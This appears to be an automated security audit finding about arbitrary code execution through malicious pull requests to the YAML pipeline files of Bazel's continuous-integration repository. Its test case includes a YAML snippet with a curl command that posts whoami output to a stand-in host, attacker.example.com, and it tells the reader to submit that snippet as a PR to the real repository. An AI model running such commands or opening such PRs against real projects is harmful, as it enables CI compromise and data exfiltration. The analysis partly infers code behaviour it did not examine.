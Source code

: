 - Vulnerability Name: Unvalidated YAML Pipeline Configuration leading to Arbitrary Code Execution
- Description:
    1. An attacker submits a malicious pull request to the repository.
    2. A project member merges the pull request without proper vetting.
    3. The pull request contains changes to a YAML pipeline configuration file (e.g., `.bazelci/presubmit.yml`).
    4. The malicious YAML configuration injects arbitrary commands into the `shell_commands`, `batch_commands`, or `run_targets` sections of a pipeline task.
    5. When the CI pipeline executes, the injected commands are executed on the Bazel CI infrastructure, leading to arbitrary code execution.
- Impact:
    - **Critical**: Full compromise of the Bazel CI infrastructure. An attacker can gain unauthorized access to sensitive data, modify CI processes, inject malware into Bazel builds, or pivot to other internal systems.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - The `README.md` file contains a warning: "*Please vet external contributions carefully as they can execute arbitrary code on our CI machines*". This is a documentation-level mitigation, not a technical control.
- Missing Mitigations:
    - **Input validation and sanitization**: The project lacks proper validation and sanitization of the YAML pipeline configuration files, especially the `shell_commands`, `batch_commands`, and `run_targets` sections, to prevent injection of malicious commands.
    - **Principle of least privilege**: The CI pipeline execution environment likely has excessive privileges, allowing successful exploitation to lead to significant impact. Implementing least privilege would limit the damage an attacker can cause.
    - **Code review process enforcement**: While documentation advises careful vetting, there isn't a technical enforcement of secure code review practices for pipeline configuration changes.
- Preconditions:
    1. An attacker must be able to submit a pull request to the repository.
    2. A project member with write access must merge the malicious pull request.
    3. The targeted Buildkite pipeline must be configured to execute the modified YAML configuration from the merged pull request.
- Source Code Analysis:
    1. **File: `/code/buildkite/README.md`**: This file documents the CI system and explicitly warns about the vulnerability: "*Please vet external contributions carefully as they can execute arbitrary code on our CI machines*". This highlights the intended functionality of executing commands from YAML and the acknowledged security risk.
    2. **File: `/code/buildkite/bazelci.py`**: This Python script is the core CI logic. While the provided files don't include the exact code that parses and executes the YAML, the documentation in `README.md` and the structure of pipeline configuration files strongly suggest that this script (or a related one) is responsible for:
        - Loading YAML configuration files.
        - Parsing the `tasks` section.
        - Extracting `shell_commands`, `batch_commands`, and `run_targets` from task configurations.
        - Executing these commands within the Buildkite agent environment.
    3. **File: `/code/pipelines/bazel-postsubmit.yml` and other `pipelines/*.yml`**: These YAML files demonstrate the configuration of pipelines, including the use of `shell_commands`, `batch_commands`, and `run_targets`.  For example, `pipelines/bazel-postsubmit.yml` defines `shell_commands` for tasks like `centos7`:
        ```yaml
        tasks:
          centos7:
            shell_commands:
              - rm -rf $HOME/bazeltest
              - mkdir $HOME/bazeltest
              - bazel mod deps --lockfile_mode=update
        ```
        This confirms that arbitrary shell commands defined in YAML are intended to be executed by the CI system.

    **Visualization:**

    ```
    Attacker PR --> YAML Config Modification --> Merged by Project Member --> Buildkite Pipeline (YAML Parsing & Execution via bazelci.py) --> Arbitrary Code Execution on CI Infrastructure
    ```

- Security Test Case:
    1. **Fork the repository**: As an external attacker, fork the `bazelbuild/continuous-integration` repository.
    2. **Create a malicious branch**: In your forked repository, create a new branch named `malicious-pr`.
    3. **Modify a pipeline configuration**: Edit the file `/code/pipelines/subpar.yml` (or any other pipeline configuration file). Add a malicious command to the `shell_commands` section of the `ubuntu2004` task. For example, modify the `pipelines/subpar.yml` to include:
        ```yaml
        ---
        platforms:
          ubuntu2004:
            shell_commands:
              - whoami > /tmp/pwned.txt # Malicious command to write username to a file
              - curl -X POST -d "$(cat /tmp/pwned.txt)" https://attacker.example.com/ # Exfiltrate username (replace with attacker's server)
              - buildkite-agent artifact upload "/tmp/pwned.txt" # Upload artifact for easy verification
            build_targets:
              - "//..."
            test_targets:
              - "//..."
        ```
    4. **Create a pull request**: Create a pull request from your `malicious-pr` branch to the `master` branch of the `bazelbuild/continuous-integration` repository.
    5. **Wait for the pipeline to trigger**: If the pull request were to be merged (which it should not be in a real attack, this is just for testing), the `subpar` pipeline would be triggered.
    6. **Observe the buildkite output**: In the Buildkite UI for the triggered `subpar` pipeline, examine the logs for the `ubuntu2004` task. You should see the commands `whoami > /tmp/pwned.txt` and `curl -X POST -d "$(cat /tmp/pwned.txt)" https://attacker.example.com/` being executed. Additionally, check the artifacts for `pwned.txt` which should contain the output of the `whoami` command. (For this test case, you would manually trigger the pipeline after making changes to the YAML file directly in the repository, not through a merged PR, for safety and ethical reasons).

This test case demonstrates arbitrary code execution by injecting shell commands into the pipeline configuration. A real attacker would replace the example commands with more malicious payloads.